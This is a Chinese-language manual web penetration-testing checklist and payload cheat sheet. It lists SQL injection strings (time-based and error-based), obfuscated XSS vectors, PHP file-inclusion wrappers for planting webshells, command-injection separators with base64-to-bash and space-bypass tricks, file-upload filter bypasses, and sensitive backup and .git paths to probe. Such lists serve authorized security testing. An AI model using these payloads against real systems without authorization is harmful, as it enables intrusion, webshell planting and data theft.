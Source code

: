 # 手工测试

## 1.1 前言

在渗透测试过程中遇到一些客户不能让使用扫描器进行扫的（系统较老啥的奇奇怪怪的要求），包括xray也不让用，只能开个burp测试的，还有就是客户是在内网的不方便装工具什么的提供一个裸机给你的。或者其他奇奇怪怪要求只能手工测试的，比如吧使用sql注入，如果只是单纯的测试and 1=1，感觉太简单了，容易测漏。所以就列一个测试payload清单放在这里，就是测试的时候挨个复制粘贴看一下结果。



## 1.2 登录框测试

1.弱口令测试。

2.验证码绕过测试。

3.修改响应包绕过登录测试等非授权访问测试。

4.手机验证码绕过测试（逻辑漏洞测试）。

5.注册一个账号测试。

6.注册的逻辑漏洞测试。

7.登录框的SQL注入测试（虽然基本不太可能有了）。

## 1.3 登录后（或不需要登录）

1.登录后的SQL注入。

2.修改头像或者能上传文件的地方进行文件上传测试。

3.能读取文件或包含文件的地方进行文件读取，目录穿越，文件包含（包括伪协议测试）。

4.能直接通过修改模板等插入代码的，尝试插入一句话木马。

5.能备份文件的，尝试通过备份来备份一句话木马。

6.有日志记录可以结合文件包含的，可以通过在地址栏中访问构造的一句话木马，在包含日志。

7.命令执行类功能的地方，比如ping之类的，测试一下命令执行。

8.类似ftp功能的地方，可以尝试一下目录穿越，看看能不能穿越到没有权限的目录从而读取文件。（总之就是根据功能点进行测试对应的漏洞。）

9.根据cms或者系统找对应的历史nday进行测试。

10.越权测试。

11.任意用户密码修改测试。

## 1.4 SQL注入测试payload

```
-1

'

and true=true --+

&& true=true #

or 656323=656323 --+

and sleep(3) #

waitfor delay '0:0:5'--

%df%27and true --+

1鎈'"\(

'and/**/extractvalue(1,concat(char(126),md5(56423645)))and'                      #c1077208a8ff487fae85e7d0b5293504

'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

## 1.5 xss测试payload

```
<ScRiPt>alert(1)</sCrIpT>

<ImG sRc=1 OnErRoR=prompt(1)>

"-prompt(1)-"

"oNmOuSeOvEr=prompt(1)//

<sc<!--test-->ript>alert('1')</scr<!--taaa-->ipt>

javascript:alert(1111)

<svg><script>alert(XSS);</script>
```

## 1.6 文件包含测试

1.测试远程文件包含。

2.尝试本地上传图片或其他格式的文件，结合文件包含进行利用。

3.为协议需要allow_url_fopen与allow_url_include同时开启，鸡肋。

```
php://filter/convert.base64-encode/resource=

php://input # POST数据包写一句话木马。

data://text/plain,<?php phpinfo();?>

data://text/plain;base64,PD9waHAgZWNobyBwaHBpbmZvKCk7Pz4=

phar://xxx/x.php

zip://xxx/b.php
```

## 1.7 命令执行payload

```
;whoami
|whoami
||whoami
&whoami
&&whoami

tips:
${IFS} # 替换空格。
%09 # 替换空格，前提PHP环境。
echo d2hvYW1pCg== | base64 -d | bash 
a=c;b=a;c=t;$a$b$c file1
cat<>file1
cat<file1
c''"at" file1 
```

## 1.8 文件上传

1.先使用copy /b a.jpg b.php s.jpg

2.上传s.jpg，抓包修改后缀为php，send发送测试。（这样做的好处是，绕过了前端验证，保证MIME为jpg，绕过了Content-type验证，因为是copy生产的图片，是可以正常打开成图片的，因此可以绕过php通过获取图像长宽进行的验证，还可以绕过验证文件头进行的验证。）

3.不行就改改后缀，如Windows下使用php.或者php空格进行尝试。

4.在不行就多加一下filename=aaa.jpg;filename=aaa.jpg;filename=aaa.jpg;filename=a.php或者使用垃圾字符进行填充。

5.再不行就后缀名换行。

（其他语言同理。）



## 1.9 目录扫描

如果是手工测试的话，为了测试的全面主要是看一下有没有网站备份或者是其他敏感文件或者是git泄露之类的，不需要像dirsearch一样详细的扫目录。

```
www.zip
www.rar
www.zip
www.7z
www.tar.gz
www.tar
web.zip
web.rar
web.zip
web.7z
web.tar.gz
web.tar
.git/HEAD
.git/config
.DS_store
.svn
admin
admin.php
db.sql
manager/
```

